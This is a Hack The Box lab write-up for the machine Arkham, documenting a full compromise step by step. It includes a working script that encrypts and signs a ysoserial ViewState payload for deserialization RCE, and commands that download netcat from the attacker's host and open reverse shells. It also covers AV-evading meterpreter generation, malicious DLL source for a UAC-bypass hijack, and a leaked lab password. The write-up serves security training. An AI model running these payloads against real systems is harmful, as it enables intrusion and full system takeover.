


## Arkham HTB Writeup
Today the machine is Arkham by MinatoTW. We start with the usual quick nmap scan.
```bash
# Nmap 7.70 scan initiated Sun Jul 28 21:02:23 2019 as: nmap -v -sV -sC -oA quick 10.10.10.130
Nmap scan report for 10.10.10.130
Host is up (0.095s latency).
Not shown: 995 filtered ports
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
8080/tcp open  http          Apache Tomcat 8.5.37
| http-methods: 
|   Supported Methods: GET HEAD POST PUT DELETE OPTIONS
|_  Potentially risky methods: PUT DELETE
|_http-title: Mask Inc.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

It's shaping up like SMB and a webserver on windows this time around. The Mask Inc. site is some kind of garbage vendor selling identity protection software, there is nothing much there on any page except for an email subscribe function. Looking at it's source, we can see a java serialized object as a hidden viewstate parameter. We start reading about serialization issues while moving forward https://www.alphabot.com/security/blog/2017/java/Misconfigured-JSF-ViewStates-can-lead-to-severe-RCE-vulnerabilities.html




Checking for anything on the shares, there is an appserver.zip that we can download and see whats inside. 
```bash
$ smbmap -H 10.10.10.130 -p 445
[+] Finding open SMB ports....
[+] Guest SMB session established on 10.10.10.130...
[+] IP: 10.10.10.130:445        Name: 10.10.10.130                                      
        Disk                                                    Permissions
        ----                                                    -----------
        ADMIN$                                                  NO ACCESS
        BatShare                                                READ ONLY
        C$                                                      NO ACCESS
        IPC$                                                    READ ONLY
        Users                                                   READ ONLY
```

```bash
$ smbclient \\\\10.10.10.130\\BatShare -N
WARNING: The "syslog" option is deprecated
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sun Feb  3 08:00:10 2019
  ..                                  D        0  Sun Feb  3 08:00:10 2019
  appserver.zip                       A  4046695  Fri Feb  1 01:13:37 2019

                5158399 blocks of size 4096. 2130091 blocks available
smb: \> get appserver.zip
getting file \appserver.zip of size 4046695 as appserver.zip (1290.2 KiloBytes/sec) (average 1290.2 KiloBytes/sec)
smb: \>
```

```bash
$ unzip appserver
Archive:  appserver.zip
  inflating: IMPORTANT.txt           
  inflating: backup.img              
```

We get a short reminder from master Bruce in IMPORTANT.txt:
```Alfred, this is the backup image from our linux server. Please see that The Joker or anyone else doesn't have unauthenticated access to it. - Bruce```

Then the backup.img file is an encrypted LUKS image.
```bash
$ file backup.img 
backup.img: LUKS encrypted file, ver 1 [aes, xts-plain64, sha256] UUID: d931ebb1-5edc-4453-8ab1-3d23bb85b38e
```
You can crack this with hashcat I suppose but before trying that we run binwalk on it to check for anyhing else, looks like an unencrypted zip archive with more hints.
```bash
root@splinter:~/labs/htb/arkham# binwalk -e backup.img                  
                                                                                                                                                                         
DECIMAL       HEXADECIMAL     DESCRIPTION                                                                                                                                         
--------------------------------------------------------------------------------
519168        0x7EC00         Linux EXT filesystem, rev 1.0, ext4 filesystem data, UUID=9c1e27b2-f91d-47d2-a167-49fd79957995
544768        0x85000         Linux EXT filesystem, rev 1.0, ext4 filesystem data, UUID=9c1e27b2-f91d-47d2-a167-49fd79957995
551936        0x86C00         Linux EXT filesystem, rev 1.0, ext4 filesystem data, UUID=9c1e27b2-f91d-47d2-a167-49fd79957995
8388608       0x800000        Linux EXT filesystem, rev 1.0, ext4 filesystem data, UUID=9c1e27b2-f91d-47d2-a167-49fd79957995
8542755       0x825A23        Zip archive data, at least v1.0 to extract, name: Mask/tomcat-stuff/
8542831       0x825A6F        Zip archive data, at least v2.0 to extract, compressed size: 1006, uncompressed size: 2208, name: Mask/tomcat-stuff/tomcat-users.xml
8543929       0x825EB9        Zip archive data, at least v2.0 to extract, compressed size: 1151, uncompressed size: 3498, name: Mask/tomcat-stuff/web.xml.bak
8545167       0x82638F        Zip archive data, at least v2.0 to extract, compressed size: 709, uncompressed size: 1368, name: Mask/tomcat-stuff/context.xml
8545963       0x8266AB        Zip archive data, at least v2.0 to extract, compressed size: 621, uncompressed size: 1172, name: Mask/tomcat-stuff/jaspic-providers.xml
8546680       0x826978        Zip archive data, at least v2.0 to extract, compressed size: 367, uncompressed size: 832, name: Mask/tomcat-stuff/faces-config.xml
8547139       0x826B43        Zip archive data, at least v2.0 to extract, compressed size: 2599, uncompressed size: 7678, name: Mask/tomcat-stuff/server.xml
8549824       0x8275C0        Zip archive data, at least v2.0 to extract, compressed size: 18347, uncompressed size: 174021, name: Mask/tomcat-stuff/web.xml
8568254       0x82BDBE        Zip archive data, at least v1.0 to extract, compressed size: 39, uncompressed size: 39, name: Mask/tomcat-stuff/MANIFEST.MF
8568380       0x82BE3C        Zip archive data, at least v2.0 to extract, compressed size: 7353, uncompressed size: 7586, name: Mask/robin.jpeg
8575806       0x82DB3E        Zip archive data, at least v2.0 to extract, compressed size: 105045, uncompressed size: 105374, name: Mask/me.jpg
8680920       0x8475D8        Zip archive data, at least v2.0 to extract, compressed size: 687109, uncompressed size: 687160, name: Mask/mycar.jpg
9466405       0x907225        End of Zip archive
---snip---
```
Some pictures of the car and in the /tomcat-stuff folder some config files.
```bash
$ ls -lRah
.:
total 392K
drwx------ 3 root root 4.0K Aug  1 17:17 .
drwxr-xr-x 3 root root  12K Aug  1 17:17 ..
-rw-r--r-- 1 root root 103K Dec 25  2018 me.jpg
-rw-r--r-- 1 root root 257K Dec 25  2018 mycar.jpg
-rw-r--r-- 1 root root 7.5K Dec 25  2018 robin.jpeg
drwx------ 2 root root 4.0K Dec 25  2018 tomcat-stuff

./tomcat-stuff:
total 212K
drwx------ 2 root root 4.0K Dec 25  2018 .
drwx------ 3 root root 4.0K Aug  1 17:17 ..
-rw-r--r-- 1 root root 1.4K Dec 25  2018 context.xml
-rw-r--r-- 1 root root  832 Dec 25  2018 faces-config.xml
-rw-r--r-- 1 root root 1.2K Dec 25  2018 jaspic-providers.xml
-rw-r--r-- 1 root root   39 Dec 25  2018 MANIFEST.MF
-rw-r--r-- 1 root root 7.5K Dec 25  2018 server.xml
-rw-r--r-- 1 root root 2.2K Dec 25  2018 tomcat-users.xml
-rw-r--r-- 1 root root 170K Dec 25  2018 web.xml
-rw-r--r-- 1 root root 3.5K Dec 25  2018 web.xml.bak
```
Nothing very interesting except in web.xml.bak we see its using encrypted viewstates...are these the secrets we need?
```xml 
<param-name>org.apache.myfaces.SECRET</param-name>
<param-value>SnNGOTg3Ni0=</param-value>
</context-param>
    <context-param>
        <param-name>org.apache.myfaces.MAC_ALGORITHM</param-name>
        <param-value>HmacSHA1</param-value>
     </context-param>
<context-param>
<param-name>org.apache.myfaces.MAC_SECRET</param-name>
<param-value>SnNGOTg3Ni0=</param-value>
</context-param>
<context-param>
<description>
```
After reading some more about java deserialization issues we go back to the Mask blog here. We can use the ysoserial tool to create a valid viewstate to replace in the request, then encrypt it with DES and sign it with our Hmac-SHA1 secret. We can see both secret values are the same in the web.xml.bak file. Checking the MyFaces documentation, http://myfaces.apache.org/shared12/myfaces-shared-core/apidocs/org/apache/myfaces/shared/util/StateUtils.html, the DES mode by default is ECB and PKCS5 is the default padding which we will need. Using the ysoserial tool, https://github.com/frohoff/ysoserial, we can create simple serialized objects to test with.
```bash 
$ java -jar /opt/ysoserial/ysoserial-master-55f1e7c35c-1.jar CommonsCollections5 'cmd /c ping 10.10.14.20' > ping.bin
$ file ping.bin
ping.bin: Java serialization data, version 5
```


So lets make a short python script to encrypt with DES and sign a ysoserial payload, and then post it to userSubscribe.faces. Something like this...
```python
import pyDes
import base64
import hmac
import requests
from hashlib import sha1

url = 'http://10.10.10.130:8080/userSubscribe.faces'

def getPayload():
    payload = open('payload.bin', 'rb').read()
    return payload.strip()

def crypt():
    # first encrypt the payload
    payload = getPayload()
    secret = bytes('SnNGOTg3Ni0=').decode('base64')
    des = pyDes.des(secret, pyDes.ECB, padmode=pyDes.PAD_PKCS5)
    crypted = des.encrypt(payload)

    # next create the HMAC
    hash_val = (hmac.new(secret, bytes(crypted), sha1).digest())
    payload = crypted + hash_val
    payload_b64 = base64.b64encode(payload)

    print "Locating payload..."
    print "Encoded payload: "+payload_b64
    print "Sending evil request..."
    encoded = {'javax.faces.ViewState': payload_b64 }
    requests.post(url, data=encoded)

crypt()
```
The getPayload() function just opens our payload.bin file, then in crypt() first we base64 decode the secret and encrypt the payload with DES. Then our HMAC object is created and added to the end of it and the whole thing is base64'd, printed to stdout, and sent to the target url. We can use the script on a ysoserial payload that downloads netcat from our webserver, then runs it back and sends us a shell.
```bash
$ java -jar /opt/ysoserial/ysoserial-master-55f1e7c35c-1.jar CommonsCollections5 'cmd /c powershell Invoke-WebRequest "http://10.10.14.20:8000/nc64.exe" -OutFile "C:\Windows\Temp\nc64.exe;C:\Windows\Temp\nc64.exe -vn 10.10.14.20 443 -e cmd.exe "' > payload.bin
$ python encode.py
Locating payload...
Encoded payload: o4swGdxTZXw1mKtPxFkj...---snip---
Sending evil request...
```

```cmd
$ nc -nlvp 443
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.130.
Ncat: Connection from 10.10.10.130:49685.
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\tomcat\apache-tomcat-8.5.37\bin>whoami     
whoami                                 
arkham\alfred           
                                                  
C:\tomcat\apache-tomcat-8.5.37\bin>systeminfo  
systeminfo                                      
                                       
Host Name:                 ARKHAM   
OS Name:                   Microsoft Windows Server 2019 Standard
OS Version:                10.0.17763 N/A Build 17763
OS Manufacturer:           Microsoft Corporation                                            
OS Configuration:          Standalone Server                                                
OS Build Type:             Multiprocessor Free                                              
Registered Owner:          Windows User                                                     
Registered Organization:  
---snip---
```
## Privilege Escalation
Cool so we're Alfred on a server 2019 machine, no smbv1 is allowed here and powershell constrained language mode should be running.
```powershell
PS C:\Users\Alfred\Downloads> $ExecutionContext.SessionState.LanguageMode
$ExecutionContext.SessionState.LanguageMode
ConstrainedLanguage
```


Looking around a bit, we see a backup.zip in Alfred's downloads. Sending it back to our attacker machine and unzipping it gives us a .ost file outlook email folder. 
```bash
$ unzip backup.zip 
Archive:  backup.zip
  inflating: alfred@arkham.local.ost  
$ file alfred@arkham.local.ost 
alfred@arkham.local.ost: Microsoft Outlook email folder
```
Loading this file into windows OST PST viewer, we see Alfred emailing a picture of Master Wayne's password. That's never a good idea. 




We can take Batman's password and do a PSsession with these three lines.
```powershell
$pass = convertto-securestring 'Zx^#QZX+T!123' -asplain -force
$cred = new-object system.management.automation.pscredential('arkham\batman', $pass)
enter-pssession -computer arkham -credential $cred
```
```powershell
C:\Users\Alfred\Downloads>powershell
powershell
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\Alfred\Downloads> $pass = convertto-securestring 'Zx^#QZX+T!123' -asplain -force
$pass = convertto-securestring 'Zx^#QZX+T!123' -asplain -force
PS C:\Users\Alfred\Downloads> $cred = new-object system.management.automation.pscredential('arkham\batman', $pass)
$cred = new-object system.management.automation.pscredential('arkham\batman', $pass)
PS C:\Users\Alfred\Downloads> enter-pssession -computer arkham -credential $cred
enter-pssession -computer arkham -credential $cred
[arkham]: PS C:\Users\Batman\Documents> whoami
whoami
arkham\batman
```

Or we could do it like this with two lines in icm scriptblock.

```powershell
$username = "batman";$password = "Zx^#QZX+T!123";$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;$Session = New-PSSession -Credential $Credential

icm -Session $Session -ScriptBlock { iwr http://10.10.14.20:8000/nc64.exe -OutFile C:\Users\Batman\Desktop\nc64.exe; C:\Users\Batman\Desktop\nc64.exe -vn 10.10.14.20 443 -e cmd.exe }
```

Now we have a shell as Batman, he is also in the remote management users and administrator groups on this box. His privileges look a little light though.
```cmd
PS C:\Users\Batman> whoami /all
whoami /all

USER INFORMATION
----------------

User Name     SID                                          
============= =============================================
arkham\batman S-1-5-21-3805402536-769430840-2640722577-1000


GROUP INFORMATION
-----------------

Group Name                                                    Type             SID          Attributes                                        
============================================================= ================ ============ ==================================================
Everyone                                                      Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account and member of Administrators group Well-known group S-1-5-114    Group used for deny only                          
BUILTIN\Administrators                                        Alias            S-1-5-32-544 Group used for deny only                          
BUILTIN\Remote Management Users                               Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                                                 Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                                          Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users                              Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization                                Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account                                    Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication                              Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level                        Label            S-1-16-8192                                                    


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State  
============================= ============================== =======
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```
We can't just cat root.txt yet, since it's in a different users folder the UAC prompt is popping up and we can't see it. No worries as there are a ton of different UAC bypasses we can look at in this awesome repo https://github.com/hfiref0x/UACME. We should try using a DLL hijack method from HTB member egre55 that is unpatched on windows 10 and up. For this we need to place a payloaded DLL file renamed srrstr.dll in a users /windowsapps folder, then run the binary SystemPropertiesAdvanced.exe which autoelevates to a high integrity process, it then calls our malicious DLL and we can execute something. We also need to be in a process running in session 1, at the moment we're on the PSRemoting process which uses session 0. So for that we can use meterpreter and migrate easily. You can read about egre55's UAC bypass on his blog here https://egre55.github.io/system-properties-uac-bypass/

To start we need to "crypt" a meterpreter shell so that it can bypass windows defender, we can use something like https://github.com/GreatSCT/GreatSCT or https://github.com/Genetic-Malware/Ebowla which is no longer updated but still works. First off, create a meterpeter payload in GreatSCT:
```
$ ./GreatSCT.py --ip 10.10.14.20 --port 4444 -o 740i -t Bypass -p msbuild/meterpreter/rev_tcp.py
===============================================================================
                                   Great Scott!
===============================================================================
      [Web]: https://github.com/GreatSCT/GreatSCT | [Twitter]: @ConsciousHacker
===============================================================================

 [*] Language: msbuild
 [*] Payload Module: msbuild/meterpreter/rev_tcp
 [*] MSBuild compiles for  us, so you just get xml :)
 [*] Source code written to: /usr/share/greatsct-output/source/740i.xml
 [*] Metasploit RC file written to: /usr/share/greatsct-output/handlers/740i.rc
```
This gives us an .rc script for the handler and a .xml file we copy to the Batman desktop and execute with msbuild.exe. It hangs and sends a shell.
```cmd
C:\Users\Batman\Desktop>C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe 740i.xml
C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe 740i.xml
Microsoft (R) Build Engine version 4.7.3190.0
[Microsoft .NET Framework, version 4.0.30319.42000]
Copyright (C) Microsoft Corporation. All rights reserved.

Build started 8/17/2019 3:09:04 AM.
```
Now in our new meterpreter shell, we can migrate to a GUI process in session 1 like so. 
```bash
[*] Sending stage (179779 bytes) to 10.10.10.130
[*] Meterpreter session 1 opened (10.10.14.20:4444 -> 10.10.10.130:49710) at 2019-08-16 17:46:19 -0400

msf5 exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > ps

Process List
============

 PID   PPID  Name                     Arch  Session  User           Path
 ---   ----  ----                     ----  -------  ----           ----
 0     0     [System Process]
 4     0     System
 76    620   svchost.exe
--snip--
 5076  5052  explorer.exe             x64   1        ARKHAM\Batman  C:\Windows\explorer.exe
 5100  5116  cmd.exe                  x64   0        ARKHAM\Batman  C:\Windows\System32\cmd.exe
 5116  3832  nc64.exe                 x64   0        ARKHAM\Batman  C:\Users\Batman\Desktop\nc64.exe

meterpreter > migrate 5076
[*] Migrating from 4260 to 5076...
[*] Migration completed successfully.
```


## DLL Hijacking with systemproperties.exe

For this phase, first we need a malicious DLL to run a WinExec command and send us our shell again.
```cpp
#include <windows.h>

BOOL WINAPI DllMain(HINSTANCE hinstDLL,DWORD fdwReason, LPVOID lpvReserved)
{
 WinExec("C:\\Windows\\Microsoft.NET\\Framework\\v4.0.30319\\msbuild.exe C:\\Users\\Batman\\Desktop\\740i.xml", 0);
 return 0;
}
```
Then compile it on our attacker machine.
```bash
root@splinter:~/labs/htb/arkham# i686-w64-mingw32-g++ -c -DBUILDING_EXAMPLE_DLL srrstr.cpp
root@splinter:~/labs/htb/arkham# i686-w64-mingw32-g++ -shared -o srrstr.dll main.o -Wl,--out-implib,main.a
root@splinter:~/labs/htb/arkham# file srrstr.dll 
srrstr.dll: PE32 executable (DLL) (console) Intel 80386, for MS Windows
```
We can see the WindowsApps folder here in Batman's PATH, this folder is writable by unprivileged users so they can install things from the windows store.
```cmd
C:\Users>echo %PATH%
echo %PATH%
C:\Windows\system32;C:\Windows;C:\Windows\System32\Wbem;C:\Windows\System32\WindowsPowerShell\v1.0\;C:\Windows\System32\OpenSSH\;C:\Users\Batman\AppData\Local\Microsoft\WindowsApps
```
Copy the srrstr.dll in there and just run the C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe or any other SysWOW64 SystemProperties binary, make sure the msf handler is still running and our shell back this time has much better privileges with no UAC.
```cmd
msf5 exploit(multi/handler) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > shell
Process 4696 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\Batman\Desktop>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State   
========================================= ================================================================== ========
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Disabled
SeSecurityPrivilege                       Manage auditing and security log                                   Disabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Disabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Disabled
SeSystemProfilePrivilege                  Profile system performance                                         Disabled
SeSystemtimePrivilege                     Change the system time                                             Disabled
SeProfileSingleProcessPrivilege           Profile single process                                             Disabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Disabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Disabled
SeBackupPrivilege                         Back up files and directories                                      Disabled
SeRestorePrivilege                        Restore files and directories                                      Disabled
SeShutdownPrivilege                       Shut down the system                                               Disabled
SeDebugPrivilege                          Debug programs                                                     Disabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Disabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled 
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Disabled
SeUndockPrivilege                         Remove computer from docking station                               Disabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Disabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled 
SeCreateGlobalPrivilege                   Create global objects                                              Enabled 
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Disabled
SeTimeZonePrivilege                       Change the time zone                                               Disabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Disabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Disabled

C:\Users\Batman\Desktop>type C:\Users\Administrator\Desktop\root.txt
type C:\Users\Administrator\Desktop\root.txt
REDACTED
```


Another easier way here for root.txt is mapping c$ as Batman and we can read it. 
```cmd
C:\Users\Batman\Desktop>net use Z: \\127.0.0.1\c$
net use Z: \\127.0.0.1\c$
The command completed successfully.


C:\Users\Batman\Desktop>type Z:\Users\Administrator\Desktop\root.txt
type Z:\Users\Administrator\Desktop\root.txt
Blah
```

Really fun time doing this, some cool topics like deserialization, AV bypass, and the DLL hijack covered on this one with plenty of things to get stuck on. I struggled with several parts like encrypting a viewstate properly and as always powershell syntax errors. Thanks for making this and your other machines MinatoTW I like the style of each of them.


